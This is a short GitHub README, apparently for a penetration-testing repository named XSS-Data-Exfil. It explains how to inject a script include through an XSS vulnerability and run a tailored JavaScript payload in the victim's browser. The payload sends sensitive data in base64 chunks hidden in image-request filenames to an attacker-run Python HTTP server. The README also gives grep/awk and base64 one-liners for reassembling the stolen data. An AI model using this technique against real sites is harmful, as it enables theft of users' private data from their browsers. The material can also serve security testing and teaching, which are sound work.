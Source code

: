 # XSS-Data-Exfil
Sample code for exfiltrating data through an XSS vulnerability. XSS Payload retrieves sensitive data in victim's browser, then breaks it into chunks. Sends those chunks out as image requests (data in image filename). Example commands and python script to put the original data back together. 

Will link to blog post once it's posted. 

Basically you tailor the exfilPayload.js file to grab the sensitive data your victim has access to. 

Then in you pull that JavaScript file into the browswer by doing a script include in the XSS vulnerability:
<script src=></script>

Start up a python HTTP server in the directory whwere exfilPayload.js is:
python -m SimpleHTTPServer 80

The exfilePayload.js will send to that same server the chunks of the data being exfiltrated. 

Copy those requests into a text file, clean it up with:
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt

Then use the python script in this repo.

Then you can put the chunks back together finally with:
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

The blog post should make it clearer. 

@hoodoer
